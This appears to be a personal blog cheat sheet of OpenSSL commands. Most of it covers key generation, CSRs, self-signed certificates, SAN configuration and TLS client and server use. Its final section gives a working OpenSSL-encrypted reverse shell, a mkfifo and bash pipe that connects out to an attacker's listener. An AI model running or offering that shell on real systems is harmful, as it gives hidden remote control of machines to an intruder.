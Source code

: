 ```yaml
---
layout: post
title: Openssl
date: 2021-01-27 16:24 -0400
categories: [Cheat Sheet]
tags: [openssl, tls, ssl, cheat sheet]
---
```


OpenSSL is one of those applications that I use so often, but *rarely* do I ever recall what I'm supposed to do from memory. I'm always looking it up or eventually copying down some of the more frequent uses I have with it in my OneNote document. So here it is on my site, some quick one-off commands with OpenSSL.

## Generate a Server Key

To generate a server key (used in AES/RSA), use the following commands, and keep this key secure!

```terminal
$ openssl genrsa -out mykey.key 2048
```

I've heard that while a 4096-bit key is significantly more secure, it is also more CPU intensive to decrypt, so while dealing with TLS certificates the general consensus is to use 2048 since it is "good enough" to the point where computational power these days can't feasibly brute force the key in a reasonable amount of time, and it doesn't slow down the connection time for the client like 4096-bits would. But still, YMMV.

Now keep it secure:

```terminal
$ chmod 600 mykey.key
```

## Generate a Certificate Sign Request

To get an official certificate, you need to generate a CSR which is to be signed by the trusted third party. Usually you pay a company to do this. You can do it yourself, but you're basically telling everyone that you're super trustworthy and no one should ever doubt you. And come on, you remember that time in Tijuana, don't you? We do.

```terminal
$ openssl req -new -key mykey.key -out mycert.csr
```

You'll then be prompted for a bunch of metadata about the certificate. Make sure you don't put anything too damning in the file and you'll be alright. You should also use a challenge password as well I guess, but that's up to you.

## Self-signing a CSR without a pre-existing key

You should never do this in any sort of production environment. It trains users to accept fraudulent certificates generated by just about anybody, but sometimes you need to have some sort of cert there so *at least data isn't transmitted in the clear*, so here's how to sign a CSR. **NOTE**: This creates the key AND the signed certificate.

```terminal
$ openssl req -newkey rsa:2048 -nodes -keyout mydomain.key -x509 -days 365 -out mydomain.crt
```
This will prompt you for all the metadata about the certificate as mentioned in generating a CSR.

## Self-signing a CSR WITH a pre-existing key

To do the above with a key that you've already generated, use the following command:

```terminal
$ openssl req -key mykey.key -new -x509 -days 365 -out mycert.crt
```

## Sign a Certificate Sign Request with a global CA key

If you have the global CA key and want to legitimately sign a CSR, you can use this command:

```terminal
$ openssl x509 -req -in mycert.csr -CA ca.cert.pem -CAkey ca.key.pem -CAcreateserial -out mycert.crt -days 365 -sha512
```

## View the metadata of a Certificate or CSR

You can view the metadata of a certificate or CSR (such as the expiration date of the certificate or anything else about it) with the following:

```terminal
$ openssl x509 -in mycert.crt -noout -text
```

Additionally, for a CSR you can use:

```terminal
$ openssl req -text -noout -verify -in mycert.csr
```

## Create a CSR with Subject Altnernate Names

This requires a little more work, and hopefully there's a better one-liner way to do it, but until I found that out, the first thing you should do is create a file called `san.cnf`:

```ini
[req]
distinguished_name = req_distinguished_name
req_extensions = v3_req
prompt = no
[req_distinguished_name]
C = US
ST = California
L = Sacremento
O = Widgets, Inc
OU = Accounting
CN = widgets.example.com
[v3_req]
keyUsage = keyEncipherment, dataEncipherment
extendedKeyUsage = serverAuth
subjectAltName = @alt_names
[alt_names]
DNS.1 = morewidgets.example.com
DNS.2 = evenmorewidgets.example.com
DNS.3 = toomanywidgets.example.com
```

Obviously fill out the above with more appropriate data to your needs, then run the following to generate both the private key and the CSR file:

```terminal
$ openssl req -out widgets.csr -newkey rsa:2048 -nodes -keyout private.key -config san.cnf
```

Don't forget to `chmod 600 private.key` afterwards!

## Create a CSR with a SAN without Generating a Key

Slightly different than the above.

```terminal
$ openssl req -out widgets.csr -new -key private.key -config san.cnf
```

---

## Connect to TLS-encrypted Service

Is a service listening on some port that's encrypted but you want to send raw data to it? You can use OpenSSL's client application to connect to it as you would using netcat or telnet, only it handles the encryption overhead so you can communicate with the server on a raw level!

```terminal
$ openssl s_client -connect <RHOST>:<RPORT>
```

Upon connecting, you should see the TLS overhead of the handshake stuff until ultimately the connection is finally made. You can suppress that with the `-quiet` flag.

## Create TLS-encrypted listener

Similarly, you can start a listener that is encrypted using openssl as well:

```terminal
$ openssl s_server -key mykey.key -cert mycert.crt -port 9090
```
You can add the `-quiet` flag here as well.

## OpenSSL-based reverse shell

For the crafty hacker, you can encrypt the shell across the wire using openssl as well.

1. First, generate the key on your local box:
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
# hit enter for default until key is generated
```

2. Then, start the listener:
```terminal
$ openssl s_server -quiet -key key.pem -cert cert.pem -port 9090
```

3. Now on the remote server, execute the following:
```terminal
$ mkfifo /tmp/a; /bin/bash -I 2>&1 </tmp/a | openssl s_client -quiet -connect <LHOST>:9090 >/tmp/a;rm /tmp/a
```

OpenSSL is really handy to know!